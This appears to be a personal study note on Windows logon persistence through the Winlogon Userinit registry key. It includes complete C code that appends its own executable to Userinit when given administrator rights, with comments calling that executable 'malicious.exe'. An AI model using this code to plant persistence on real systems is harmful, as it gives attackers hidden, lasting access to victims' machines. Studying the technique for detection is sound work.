

# Winlogon\Userinit
•
https://pentestlab.blog/tag/userinit/HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\UserinitUserinit will run at Windows logon.
This registry key points to
C:\WINDOWS\system32\userinit.exe,.
It ends with a comma.
Other programs can be started from this key by appending them to the end, separated by a comma.
e.g.
C:\WINDOWS\system32\userinit.exe,C:\Users\Bob\Desktop\hello_world.exe## Advantages
• Doesn't show up in
Task Manager > Start-up## Disadvantages
• Detected -
https://blog.malwarebytes.com/detections/hijack-userinit/## Code
Binaries in
Userinit start as the logged-in user, not Administrator.
To modify
HKEY_LOCAL_MACHINE keys, we need Administrator privileges.
◇
KEY_QUERY_VALUE reads the registry, and doesn't need Administrator
◇
KEY_SET_VALUE writes to the registry, and DOES need Administrator
Therefore, the code below checks if
Userint already contains our
filename.exe.
If it does, the registry is left alone and the code skips to exeuction.
If it doesn't, we assume that we're planting this exe for the first and running it as Administrator, which means that
Userint gets modified.
#include <stdio.h>
#include <Windows.h>
int main()
{
LSTATUS lstatRet;
// open key
printf("[*] opening key \n");
HKEY hKey = NULL;
lstatRet = RegOpenKeyExW(HKEY_LOCAL_MACHINE, L"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon", 0, KEY_QUERY_VALUE, &hKey);
if (lstatRet != ERROR_SUCCESS)
{
fprintf(stderr, "[error] failed to open key \n");
return 1;
}
// read registry value
printf("[*] reading Userinit value... ");
wchar_t regValue[115];
DWORD dwValueSize;
RegGetValueW(HKEY_LOCAL_MACHINE, L"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon", L"Userinit", RRF_RT_REG_SZ, NULL, regValue, &dwValueSize);
printf("\"%S\" \n", regValue);
/// grab binary name for substring search
wchar_t exeName[MAX_PATH];
GetModuleFileNameW(NULL, exeName, MAX_PATH);
// find "malicious.exe" in registry value
// if "malicious.exe" not in registry value -> i.e if we haven't added persistence yet
printf("[*] .exe in Userinit key?... ");
if (wcsstr(regValue, exeName) == NULL)
{
printf("FALSE \n");
printf("[*] adding .exe to Userinit value \n");
// add malicious.exe to registry value
// THIS PART REQUIRES ADMINISTRATOR PRIVILEGES
// open key with KEY_SET_VALUE privileges
printf("[*] opening key \n");
HKEY hKeyWrite = NULL;
lstatRet = RegOpenKeyExW(HKEY_LOCAL_MACHINE, L"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon", 0, KEY_SET_VALUE, &hKeyWrite);
if (lstatRet != ERROR_SUCCESS)
{
fprintf(stderr, "[error] failed to open key with KEY_SET_VALUE privileges\n");
return 1;
}
// modify value
printf("[*] modifying value \n");
wchar_t value[] = L"C:\\Windows\\system32\\userinit.exe,C:\\Users\\Bob\\source\\repos\\learn10-reg_userinit\\x64\\Debug\\learn10-reg_userinit.exe";
lstatRet = RegSetValueExW(hKeyWrite, L"Userinit", 0, REG_SZ, (BYTE*)value, sizeof(value));
if (lstatRet != ERROR_SUCCESS)
{
fprintf(stderr, "[error] failed set key value \n");
return 1;
}
}
// if "malicious".exe IS found in registry value (i.e we've already added persistence), we continue to normal execution
else
{
printf("TRUE \n");
printf("[*] continuing to normal execution \n");
}
printf("Hello from Winlogon :) \n");
getchar();
return 0;
}